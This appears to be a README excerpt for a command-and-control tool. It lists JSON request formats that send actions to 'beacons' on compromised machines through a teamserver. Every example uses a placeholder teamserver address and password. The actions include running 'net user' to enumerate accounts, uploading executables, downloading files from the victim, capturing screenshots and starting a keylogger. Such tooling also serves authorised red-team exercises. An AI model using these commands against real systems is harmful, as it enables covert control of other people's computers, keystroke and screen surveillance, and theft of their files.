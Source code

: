 ### Command Execution
```bash
# Execute command on beacon
{
  "action": "execute_command",
  "beacon_id": "beacon_001",
  "command": "net user",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### File Operations
```bash
# Upload file
{
  "action": "upload_file",
  "beacon_id": "beacon_001",
  "file_path": "/path/to/file.exe",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Download file
{
  "action": "download_file",
  "beacon_id": "beacon_001",
  "file_path": "C:\\temp\\file.txt",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Screenshot and Keylogger
```bash
# Take screenshot
{
  "action": "screenshot",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Start keylogger
{
  "action": "keylogger",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```
